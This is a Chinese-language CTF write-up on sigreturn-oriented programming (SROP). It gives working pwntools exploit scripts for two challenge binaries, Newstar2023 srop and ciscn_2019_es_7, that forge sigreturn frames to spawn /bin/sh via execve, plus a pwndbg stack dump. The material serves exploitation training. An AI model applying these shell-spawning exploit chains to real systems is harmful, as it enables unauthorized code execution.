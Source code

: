 ```yaml
---
title: SROP
tags: [ctf-pwn,stack]
date: 2023-11-27 14:44:00
categories: [ctf-pwn]
excerpt: exp
---
```


需要syscall ret，如果没有syscall 15，就要先造一个  pop rax, ret 加 0xf 的gadget，然后在执行syscall。



### Newstar2023 srop

<https://buuoj.cn/match/matches/190/challenges>

整体思路就是先构造一个syscall 15的rop，然后在这个syscall栈下面放上一个frame，frame的rip指向syscall，然后再把需要执行的函数和参数写进其他寄存器

0xf是sigreturn调用号，59是execve调用号

不懂为什么syscall的调用号是在rdi上

> 答：这道题是call syscall ，不是直接执行syscall
>
> \_\_int64 syscall(__int64 sysno, ...)
> {
>   	return syscall(sysno);
> }

第一次send栈迁移是为了能够知道/bin/sh在哪，在原本的栈上不知道地址



```python
from pwn import *

context.arch='amd64'
context.os='linux'
context.log_level='debug'

p=process('./pwn_1')
elf=ELF('./pwn_1')

rdi=0x401203
syscall=elf.plt['syscall']
lea=0x401171
bss=0x404050+0x300 # 这个0x300换成别的或者直接不加，试过也可以

p.recvuntil('welcome to srop!\n')
frame=SigreturnFrame()
frame.rdi=59
frame.rsi=bss-0x30 # 原本的栈上rbp距离字符串开头是0x30字节，栈迁移过来也一样
frame.rdx=0
frame.rcx=0
frame.rsp=bss+0x38
frame.rip=syscall

p.send(b'a'*0x30+flat(bss,lea))
p.send(b'/bin/sh\x00'+b'a'*0x30+flat(rdi,0xf,syscall,frame))

p.interactive()

```

### ciscn_2019_es_7

<https://buuoj.cn/challenges#ciscn_2019_es_7>

sys_write本身泄露了栈上的地址，计算和buf输入的binsh的偏移

```python
from pwn import *
from LibcSearcher import *
#context.arch='amd64'
context(os='linux',arch='amd64',log_level='debug')

#p=process("./ciscn_2019_es_7")
p=remote('node4.buuoj.cn',25797)

syscall_ret=0x400517
sigreturn_addr=0x4004da # rax = 15, ret
system_addr=0x4004E2	# syscall, ret

rax=0x4004f1

p.send(b"/bin/sh"+b"\x00"*9+p64(rax))
p.recv(32)
stack_addr=u64(p.recv(8))
log.success("stack: "+hex(stack_addr))
p.recv(8)

sigframe = SigreturnFrame()
sigframe.rax = 59
sigframe.rdi = stack_addr - 0x118  
sigframe.rsi = 0x0
sigframe.rdx = 0x0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret

p.send(b"/bin/sh"+b"\x00"*(0x1+0x8)+p64(sigreturn_addr)+p64(syscall_ret)+bytes(sigframe))

p.interactive()
```

上面的exp里binsh和泄露的地址偏移是0x118，但是在我本地是328（kali2023.3），远程是ubuntu18

```python
pwndbg> x/100x 0x7fffffffde00 -40
0x7fffffffddd8: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdde8: 0x00000000      0x00000000      0x31333231      0x32313332 #  ddf0是buf的地址
0x7fffffffddf8: 0x00000a33      0x00000000      0xffffde20      0x00007fff
0x7fffffffde08: 0x00400536      0x00000000      0xffffdf38      0x00007fff
0x7fffffffde18: 0x00000000      0x00000001      0x00000001      0x00000000
pwndbg> stack 30
00:0000│ rbp rsp 0x7fffffffde00 —▸ 0x7fffffffde20 ◂— 0x1
01:0008│         0x7fffffffde08 —▸ 0x400536 (main+25) ◂— nop  # ret addr
02:0010│         0x7fffffffde10 —▸ 0x7fffffffdf38 —▸ 0x7fffffffe2af ◂— '/home/kali/Desktop/ciscn_s_3'
03:0018│         0x7fffffffde18 ◂— 0x100000000
04:0020│         0x7fffffffde20 ◂— 0x1

```

